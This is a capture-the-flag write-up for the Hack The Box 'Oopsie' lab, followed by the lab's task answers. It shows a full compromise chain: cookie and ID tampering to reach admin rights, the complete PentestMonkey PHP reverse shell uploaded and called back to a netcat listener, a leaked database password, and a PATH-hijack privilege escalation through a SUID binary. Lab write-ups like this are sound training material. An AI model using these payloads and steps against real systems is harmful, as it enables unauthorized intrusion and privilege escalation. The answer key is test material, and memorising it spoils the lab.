

# Oopsie      


## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.


`22/tcp (SSH)` - This port is used by the `Secure Shell (SSH)` protocol, which allows for secure remote login and other secure network services over an unsecured network. It encrypts the session, making it ideal for secure command-line access and file transfers between computers.

`80/tcp (HTTP)` - This port is used by the `Hypertext Transfer Protocol (HTTP)`, which is the foundation of data communication for the World Wide Web. It is commonly used for serving web pages and handling web traffic between a client (such as a web browser) and a web server.

After pasting `http://{target ip}/` into the browser we can see website.


### DirBuster 

This time I used `OWASP DirBuster` tool as `gobuster` did not help me at all.

I used `directory-list-2.3-medium.txt` dictionary from `/usr/share/wordlists/dirbuster` path.


After quite long enumeration, here are my results:


There are some interesting directories.

Now, go to:

```
http://{target ip}/cdn-cgi/login/
```

We can see login panel:


Press `Login as Guest`.


We are "in".

We can see `Uploads` section, however uploading require super admin rights.


It would be nice if we got these rights, as we could then upload a `shell` here.

Let's click through all the tabs.


Here we can see `user account`.

In the tab url we can see parameter:

```
http://{target ip}/cdn-cgi/login/admin.php?content=accounts&id=2
```

Manipulate on `user id`. Change `id=2` to `id=1`:

```
http://{target ip}/cdn-cgi/login/admin.php?content=accounts&id=1
```


We have `Admin's` `role value` as `admin` and `user value` as `34322`.

The website's cookie determines the role and privileges of the user.

In `Google Chrome`:

`1` Right click

`2` Inspect

`3` Application

`4` Cookies


Swap the `guest` with `admin` and `id=2233` with `id=34322`.


Now we sould have access to `Uploads` section.


### Reverse shell preparation

Go to: https://www.revshells.com/

We are going to use `PHP PentestMonkey` one.

Paste `ip address` of our `tun0` interface as we are connected to `Hack The Box` through VPN.

If you don't know your `tun0` ip address use `ip a` command or `ifconfig`.

The `port` can be any of your choice.


Copy the payload, it should look like this:

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '{your tun0 ip}';
$port = {port of your choice};
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Save it as `.php` file.

Upload it in `Uploads` section.


### gobuster

Even though `gobuster` didn't help at the beginning, now it will be very helpful.

To execute `reverse shell` we have to know the path to our uploaded `.php` file.

Type:

```
gobuster dir -u http://{target ip}/ -w {path to teh dictionary you want to use}
```


We can see that all `uploads` are in `/uploads` directory.

### Netcat

Now is time to set up the `netcat`.

Type in new tab:

```
nc -lvnp {port you have chosen}
```



### Execute reverse shell

If all of the above is done, type in your browser:

```
http://{target ip}/uploads/{name of your reverse shell file}.php
```


Don't worry, we executed a file.

Go to `netcat` tab in your terminal and you should see this:


If you need, you can stabilize your `shell` - I modified one of payloads (from this link: 
https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html
) and it should work:

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Just `paste it` and press `enter`.

#### Disclaimer

In case your shell isn't working, netcat did not respond, your shell might have been deleted. Just upload it again in `Uploads` section.

### Get the user flag

`User` flag is in the `/home/robert` path.


### System search

It's time to look around the system.

I'll save your time.

Go to `/var/www/html/cdn-cgi/login`:

```
cd /var/www/html/cdn-cgi/login
```

and see what's in `db.php`:

```
cat db.php
```


We have `robert` user's password - `M3g4C0rpUs3r!`.

### SSH

From the `nmap` scan we know that `SSH` service is open.

Let's log in through `SSH` with `robert` credentials.

Type:

```
ssh robert@{target ip}
```

I tried to access `root` directory as we already heave `user's` flag.


We cannot do that. We need to perform `Privilege Escalation` on the `robert` account.

### Privilege Escalation


User `robert` is part of the group `bugtracker` . 

Let's check if there are any binaries associated with that group.

Type:

```
find / -group bugtracker 2>/dev/null
```

The `2>/dev/null` is part of a command in a `Unix-like` operating system redirects the standard error (stderr) output (file descriptor 2) to `/dev/null`. This effectively discards any `error messages` that would otherwise be displayed in the terminal.


Go to `/usr/bin`.

```
cd /usr/bin
```

Type:

```
ls -la bugtracker 
```

and 

```
file bugtracker
```


There is an information that tells us that a binary file has the `Set User ID (SUID)` bit set. This means that when the binary is executed, it runs with the privileges of the file's `owner` rather than the user who executed it.

Let's run an application to see what will happen.


The tool accepts user input for the file name to read using the `cat` command but doesn't specify the full path to `cat`, making it exploitable. We'll navigate to the `/tmp` directory and create a malicious `cat` file with the desired content.

#### Change Directory to `/tmp`

```
cd /tmp
```

#### Create a Malicious `cat` Script

```
echo "/bin/sh" > cat
```

This command creates a file named `cat` in the `/tmp` directory containing the text `/bin/sh`, which, when executed, will open a shell.

#### Make the `cat` Script Executable

```
chmod +x cat
```

This changes the permissions of the `cat` file to make it executable.

#### Prepend `/tmp` to the `PATH` Environment Variable

```
export PATH=/tmp:$PATH
```

This command modifies the `PATH` environment variable to prioritize the `/tmp` directory. It ensures that when the `cat` command is run, the system will look in `/tmp` first.

#### Display the Modified `PATH`

```
echo $PATH
```

This command outputs the current `PATH` to verify that `/tmp` is now at the beginning of the path list.

#### Summary
By placing a malicious script named `cat` in the `/tmp` directory and modifying the `PATH` environment variable, any call to `cat` will use this malicious script instead of the legitimate `cat` command. This is an attempt to exploit a vulnerability in a program that does not specify the full path to the `cat` command, potentially granting a shell with elevated privileges if the original program runs with higher privileges.


Now is finally time to execute the `bugtracker`.


Boom. We are `root`.

### Get the root flag

Root flag is in the `/root` directory.


### Paste the flags


## Answers

### Task-1: With what kind of tool can intercept web traffic?

proxy

### Task-2: What is the path to the directory on the webserver that returns a login page?

/cdn-cgi/login

### Task-3: What can be modified in Firefox to get access to the upload page?

cookie

### Task-4: What is the access ID of the admin user?

34322

### Task-5: On uploading a file, what directory does that file appear in on the server?

/uploads

### Task-6: What is the file that contains the password that is shared with the robert user?

db.php

### Task-7: What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?

find

### Task-8: Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?

root

### Task-9: What SUID stands for?

Set owner User ID


### Task-10: What is the name of the executable being called in an insecure manner?

cat 

### Submit user flag

:)

### Submit root flag

:)